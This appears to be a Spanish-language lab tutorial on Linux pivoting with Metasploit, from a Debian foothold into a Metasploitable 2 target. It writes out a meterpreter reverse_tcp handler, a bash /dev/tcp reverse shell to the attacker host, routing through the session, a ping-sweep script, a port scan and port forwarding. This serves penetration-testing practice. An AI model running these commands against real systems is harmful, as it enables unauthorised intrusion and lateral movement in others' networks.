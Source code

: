 # Pivoting en Linux usando Mestasploit

![Laboratorio de prueba](/Pivoting-Linux.png)

En primer lugar, debemos ganar acceso a la máquina Debian para luego hacer el pivoting al la máquina objetivo Metasploitable 2.

#### Reconocimiento

```bash
$ arp-scan -I eth0 --localnet --ignoredups
```

Identificamos la ip objetivo: 192.168.1.16

En este punto, realizaríamos el escaneo con _nmap_ para encontrar los distintos puertos abiertos, vulnerabilidades, etc. En este caso, como es un laboratorio para practicar pivoting, simplemente enviaremos una reverse shell desde la máquina Debian a nuestro Kali.

Iniciamos metasploit para ejecutar el exploit `multi/handler` y asi establecer una escucha que nos dara acceso a una sesión de meterpreter.

```bash
$ msfbd run
msf6> workspace -a PivotingLab
msf6> use exploit/multi/handler
msf6> set LHOST 192.168.1.3
msf6> set PAYLOAD linux/x64/meterpreter/reverse_tcp
msf6> run
```

Luego, en la máquina Debian enviamos la reverse shell

```bash
$ bash -i >& /dev/tcp/192.168.1.3/4444 0>&1
```

Enviamos a segundo plano la sesión de meterpreter y ejecutamos el siguiente comando para enrutar el tráfico, en este caso, de la subnet `10.0.2.8/24`:

```bash
meterpreter > ifconfig -> listas las interfaces de red
meterpreter > ^Z
msf6> route add 10.0.2.8 255.255.255.0 2
```

#### Host Discovery

Podemos usar el siguiente script para descubrir host activos dentro de la subred. Este script, deberíamos ejecutarlo en la máquina intermedia.

```bash
#!/bin/bash
# host-discovery.sh

for i in $(seq 1 254); do
        timeout 1 bash -c "ping -c 1 10.0.2.$i" &>/dev/null && echo "[+] Host 10.0.2.$i - ACTIVO" &
done; wait
```

Para descubrir los puertos abiertos en la máquina, podemos usar el modulo `auxiliary/scanner/portscan/tcp`.

```bash
msf6> use auxiliary/scanner/portscan/tcp
msf6> set RHOSTS 10.0.2.5
msf6> set PORTS 1-1000
```

Redirección de puertos / Port Forwarding

```bash
msf6> sessions 2
meterpreter> portfwd add -l 5000 -p 80 -r 10.0.2.5
```

Con el comando anterior, redireccionamos el puerto 80 de la máquina objetivo 10.0.2.5 a el puerto 5000 de nuestra máquina atacante.
